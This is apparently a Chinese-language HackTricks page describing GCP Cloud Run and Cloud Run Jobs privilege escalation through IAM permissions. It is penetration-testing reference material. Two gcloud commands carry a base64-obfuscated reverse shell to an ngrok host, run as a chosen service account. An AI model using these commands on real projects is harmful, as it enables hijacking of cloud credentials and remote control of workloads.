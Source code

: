 # GCP - Run Privesc

<details>

<summary><strong>从零到英雄学习AWS黑客技术</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在**HackTricks中看到您的公司广告**或**以PDF格式下载HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## run

### `run.services.create` , `iam.serviceAccounts.actAs`

类似于_cloudfunctions.functions.create_方法，此方法创建一个**新的Cloud Run服务**，当调用时，通过访问其运行服务器的元数据API**返回服务账户的**访问令牌。将部署Cloud Run服务，并可以对其执行请求以获取令牌。

此方法**需要以下权限**：

* _run.services.create_
* _iam.serviceaccounts.actAs_
* _run.services.setIamPolicy_ **或** _run.routes.invoke_

![](https://rhinosecuritylabs.com/wp-content/uploads/2020/04/image8-1000x503.png)

此方法使用必须构建和托管的包含的Docker镜像才能正确利用。该镜像设计为告诉Cloud Run在收到HTTP请求时响应服务账户的访问令牌。

此方法的利用脚本可以在[这里](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/run.services.create.py)找到，Docker镜像可以在[这里](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudRunDockerImage)找到。

出于某种原因，使用`gcloud run deploy`部署服务时，与仅创建服务相比，**需要更新权限**。查看[**这里的示例**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/o-run.services.create.sh)。

### `run.services.update` , `iam.serviceAccounts.actAs`

与前一个类似，但是是更新服务
```bash
gcloud run deploy hacked \
--image=marketplace.gcr.io/google/ubuntu2004 \
--command=bash \
--args="-c,echo c2ggLWkgPiYgL2Rldi90Y3AvNy50Y3AuZXUubmdyb2suaW8vMTQ4NDEgMD4mMQ== | base64 -d | bash" \
--service-account="<proj-num>-compute@developer.gserviceaccount.com" \
--region=us-central1 \
--allow-unauthenticated
```
### `run.services.setIamPolicy`

给自己之前的权限。

### `run.jobs.create`, `run.jobs.run`, (`run.jobs.get`)

启动一个带有反向 shell 的作业，以窃取命令中指示的服务账户。您可以在[**这里找到一个漏洞利用**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/m-run.jobs.create.sh)。

### `run.jobs.update`, `run.jobs.run`, `iam.serviceaccounts.actAs`, (`run.jobs.get`)

类似于前一个，可以**更新作业并更新 SA**，**命令**并**执行它**：
```bash
gcloud beta run jobs update hacked \
--image=marketplace.gcr.io/google/ubuntu2004 \
--command=bash \
--args="-c,echo c2ggLWkgPiYgL2Rldi90Y3AvNy50Y3AuZXUubmdyb2suaW8vMTQ4NDEgMD4mMQ== | base64 -d | bash" \
--service-account=<proj-num>-compute@developer.gserviceaccount.com \
--region=us-central1 \
--project=security-devbox --execute-now
```
### `run.jobs.setIamPolicy`

给自己之前的权限。

## 参考资料

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

<details>

<summary><strong>从零开始学习AWS黑客技术，成为</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS红队专家)</strong></a><strong>！</strong></summary>

其他支持HackTricks的方式：

* 如果您想在**HackTricks**中看到您的**公司广告**或**下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在**Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
